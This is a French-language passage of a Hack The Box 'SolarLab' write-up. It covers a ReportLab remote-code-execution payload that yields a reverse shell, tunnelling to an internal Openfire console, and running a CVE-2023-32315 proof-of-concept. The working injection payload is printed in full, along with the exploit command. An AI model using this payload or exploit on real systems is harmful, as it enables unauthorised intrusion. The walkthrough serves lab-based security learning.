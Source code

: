 ![Travel Approval](/images/HTB-SolarLab/Travel_Approval.png)

Après avoir capturé la requête et l'avoir envoyée au repeater avec Burp, nous insérons notre payload et nous nous assurons que la valeur `filename` correspond à celle de `Content-Type`. 

> Nous obtenons un shell inversé sur [revshells](https://www.revshells.com/) en utilisant l'option `PowerShell #3 (Base64)`.

![ReportLab RCE](/images/HTB-SolarLab/payload-RCE.png)

**Payload utilisé**

```HTML
<para><font color="[[[getattr(pow, Word('__globals__'))['os'].system('INSERT_REVSHELL_HERE') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font></para>
```

Sur notre listener, nous obtenons un shell en tant que Blake et le drapeau utilisateur se trouve dans le répertoire Desktop.

![User flag](/images/HTB-SolarLab/user_flag.png)

### Shell en tant que openfire

Nous constatons la présence d'un autre utilisateur `openfire` sur la cible .

![User list](/images/HTB-SolarLab/users_list.png)

Avec `netstat -ano` nous obtenons tous les services fonctionnant sur la cible. Pour accéder aux services internes, nous utilisons le tunneling.

> Personnellement, je préfère [ligolo-ng](https://github.com/nicocha30/ligolo-ng), mais vous pouvez également utiliser [chisel](https://github.com/jpillora/chisel).

![netstat command](/images/HTB-SolarLab/netstat.png)

Après avoir essayé plusieurs ports, nous trouvons une console d'administration Openfire sur le port 9090.

![Openfire admin console](/images/HTB-SolarLab/Openfire-console.png)

Aucune des informations d'identification dont nous disposons ne fonctionne. Je reconnais cette version obsolète d'Openfire, elle est vulnérable au [CVE-2023-32315](https://vulncheck.com/blog/openfire-cve-2023-32315) avec un PoC disponible [ici](https://github.com/miko550/CVE-2023-32315).

> La méthode d'exploitation est la même pour HTB: Jab, mais nous avions déjà les identifiants pour nous connecter à la console.

1. Nous nous connectons avec le compte nouvellement créé

```
python3 CVE-2023-32315.py -t http://240.0.0.1:9090
```

